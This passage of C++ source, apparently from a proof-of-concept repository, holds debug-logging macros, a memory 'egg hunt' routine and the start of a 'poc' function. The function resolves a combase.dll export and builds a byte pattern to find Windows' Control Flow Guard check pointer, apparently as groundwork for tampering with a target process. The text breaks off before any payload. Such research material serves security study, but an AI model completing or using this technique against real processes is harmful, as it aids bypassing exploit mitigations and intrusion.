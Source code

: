 ```cpp
#define COLOUR_LIGHTYELLOW "\033[93m"
#define COLOUR_LIGHTBLUE "\033[94m"
#define COLOUR_LIGHTMAGENTA "\033[95m"
#define COLOUR_LIGHTCYAN "\033[96m"
#define COLOUR_WHITE "\033[97m"

#pragma endregion

#pragma region [dprintf]

#if _DEBUG
#include <stdio.h>
#define dprintf(fmt, ...)		printf(fmt, __VA_ARGS__)
#define LOG_SUCCESS(fmt, ...)	printf(COLOUR_BOLD COLOUR_GREEN   "[+]" COLOUR_DEFAULT " [" __FUNCTION__ "] " fmt "\n", __VA_ARGS__)
#define LOG_INFO(fmt, ...)		printf(COLOUR_BOLD COLOUR_BLUE    "[*]" COLOUR_DEFAULT " [" __FUNCTION__ "] " fmt "\n", __VA_ARGS__)
#define LOG_ERROR(fmt, ...)		printf(COLOUR_BOLD COLOUR_RED     "[!]" COLOUR_DEFAULT " [" __FUNCTION__ "] " fmt "\n", __VA_ARGS__)
#define LOG_DEBUG(fmt, ...)		printf(COLOUR_BOLD COLOUR_MAGENTA "[D]" COLOUR_DEFAULT " [" __FUNCTION__ "] " fmt "\n", __VA_ARGS__)
#else
#define dprintf(fmt, ...)     (0)
#define LOG_SUCCESS(fmt, ...) (0)
#define LOG_INFO(fmt, ...)	  (0)
#define LOG_ERROR(fmt, ...)	  (0)
#define LOG_DEBUG(fmt, ...)	  (0)
#endif

#pragma endregion

//
// Search a region of memory for an egg. Returns NULL on failure.
//
PVOID EggHunt(_In_ PVOID RegionStart, _In_ SIZE_T RegionLength, _In_ PVOID Egg, _In_ SIZE_T EggLength)
{
    if (!RegionStart || !RegionLength || !Egg || !EggLength)
        return NULL;

    for (CHAR* pchar = (CHAR*)RegionStart; RegionLength >= EggLength; ++pchar, --RegionLength)
    {
        if (memcmp(pchar, Egg, EggLength) == 0)
            return pchar;
    }
    return NULL;
}

VOID poc(INT pid)
{
    HMODULE combase = LoadLibraryA("combase.dll");
    
    FARPROC NdrProxyForwardingFunction13 = GetProcAddress(combase, "NdrProxyForwardingFunction13");
    LOG_INFO("NdrProxyForwardingFunction13 @ 0x%016llx", (size_t)NdrProxyForwardingFunction13);

    /*
    18021e30c  4c8b11             mov     r10, qword [rcx]
    18021e30f  498b4a68           mov     rcx, qword [r10+0x68]
    18021e313  ff159f6b0900       call    qword [rel __guard_check_icall_fptr]  {_guard_check_icall_nop}
    */
    BYTE egg___guard_check_icall_fptr[] = {
        0x4c, 0x8b, 0x11,        // mov     r10, qword [rcx]
```